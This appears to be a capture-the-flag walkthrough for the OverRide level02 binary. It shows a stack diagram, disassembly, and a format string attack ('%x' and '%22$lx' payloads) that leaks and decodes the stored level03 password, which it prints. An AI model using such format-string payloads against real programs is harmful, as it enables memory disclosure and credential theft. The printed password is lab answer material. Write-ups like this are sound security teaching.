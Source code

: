 ## WALKTHROUGH - LEVEL02

---

To have a better understanding of what happens inside the stack of the program and what we'll use for our exploit, here is a little diagram of the stack:

| Name | Address range | Purpose |
| :---: | :----: | :---: |
|  |  **RBP** |  |
|| ... ||
| Input username | RBP-**0x70** : RBP-0x10 | Stores the input given in the password section |
|  Ø | RBP-**0x78** : RBP-0x70 | Ø |
| **Level03 password** | RBP-**0xa0** : RBP-0x78 | Stores the real level03 password|
|  Ø | RBP-**0xb0** : RBP-0xa0 | Ø |
| Input password | RBP-**0x110** : RBP-0xb0 | Stores the input given in the password section|
|| ... ||
|  | **RSP** | or: RBP-0x120 |

---

As we can see, the program takes two user inputs, and stores them at the beginning and the end of the stack.

We can also see that the the first input, the **username input**, is printed by **printf** at the end in **an unprotected way**, which means we can **use a format string attack** there:

```sh
  400a96:	48 8d 45 90          	lea    rax,[rbp-0x70]
  400a9a:	48 89 c7             	mov    rdi,rax
  400a9d:	b8 00 00 00 00       	mov    eax,0x0
  400aa2:	e8 19 fc ff ff       	call   4006c0 <printf@plt>
```

We know we are in an ELF64 binary, so the **arguments** will be first **looked** for inside of registers (RDI, RSI, RDX, RCX, R8, R9), and **then on the stack**. This means that we could potentially **have access to the Level03 password zone on the stack** if we go far enough.  
So we check that by writing multiple **%x** in the username buffer, which will only print 4 bytes of memory at each address, and we fill the password buffer with "A":

```sh
level02@OverRide:~$ python -c 'print "%x "*31 + "\n" + "A"*96 + "\n"' > test
level02@OverRide:~$ cat test | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
ffffe3d0 0 41 2a2a2a2a 2a2a2a2a ffffe5c8 f7ff9a08 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 0 0 34376848 61733951 574e6758 6e475873 664b394d 0 25207825 20782520 78252078 25207825  does not have access!
```

So we can see that we printed multiple A strings, and at the end we can notice a pattern of *"207825"* , which is, in ascii, *"%x "*, which is what we put in our username input.  
So we can deduce than **we can indeed access to the password buffer**, between the null values: `0 34376848 61733951 574e6758 6e475873 664b394d 0`.  
We only **printed the first 4 bytes of the addresses** though, so we need to write another payload to print the full addresses. 
We know that the addresses are located between the 22nd and the 26th argument, and that the **l** modifier in printf can print long values(8 bytes).

Our payload then looks like this:

```sh
level02@OverRide:~$ python -c 'print "%22$lx %23$lx %24$lx %25$lx %26$lx" + "\n\n"' > payload
level02@OverRide:~$ cat payload | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d does not have access!

```

We now have dumped the full password buffer, so we now need to reverse each string as they were stored in little endian on the stack, and print them in their ascii value, and we get the password:

```sh
level02@OverRide:~$ python -c 'print "\x75\x6e\x50\x52\x34\x37\x68\x48"[::-1] + "\x45\x41\x4a\x35\x61\x73\x39\x51"[::-1] + "\x37\x7a\x71\x43\x57\x4e\x67\x58"[::-1] + "\x35\x4a\x35\x68\x6e\x47\x58\x73"[::-1] + "\x48\x33\x67\x50\x66\x4b\x39\x4d"[::-1]'
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3Ho
```
